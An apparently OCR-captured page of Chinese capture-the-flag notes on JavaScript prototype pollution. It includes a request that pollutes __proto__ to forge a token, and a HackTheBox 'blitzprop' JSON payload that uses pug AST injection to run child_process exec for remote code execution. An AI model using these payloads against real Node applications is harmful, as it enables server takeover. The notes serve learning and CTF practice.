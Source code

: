 ```python
const crypto = require('crypto');
const hash = (token) => crypto.createHash('sha256').update(token).digest('hex');

token = "12345678900000000";
hostname = "::ffff:127.0.0.1";
result = hash(hostname + token);
console.log(result); // 0571d35ff568c6faacaa8f931b66729b9bc12a2c1231b8dc8c57073f35c8b62f
```

首先污染原型链：

```python
http://localhost:3000/api/draw?x=__proto__&y=token&color=1cd6705c4f0df9b640deaa47c5510b7b8b4303acc3bf1e95670e975b889a6ce9
```

然后获取flag

```python
http://localhost:3000/flag?token=1234567890000000
```

结论：当对象访问一个不一定存在的属性时，极易被原型链污染攻击

 HTB blitzprop

**payload**

```json
{
       "song.name": "The Goose went wild", 
        "__proto__.block":{
            "type":"Text",
			"line":"process.mainModule.require('child_process').exec('cmd')"
		}
}
```

 AST injection + 原型链污染
详细了解：
[https://xz.aliyun.com/t/12635](https://xz.aliyun.com/t/12635) 

通过插入AST来实现注入



 pug AST注入

```javascript
<!-- /node_modules/pug-code-gen/index.js -->

if (debug && node.debug !== false && node.type !== 'Block') {
    if (node.line) {
        var js = ';pug_debug_line = ' + node.line;
        if (node.filename)
            js += ';pug_debug_filename = ' + stringify(node.filename);
        this.buf.push(js + ';');
    }
}
```
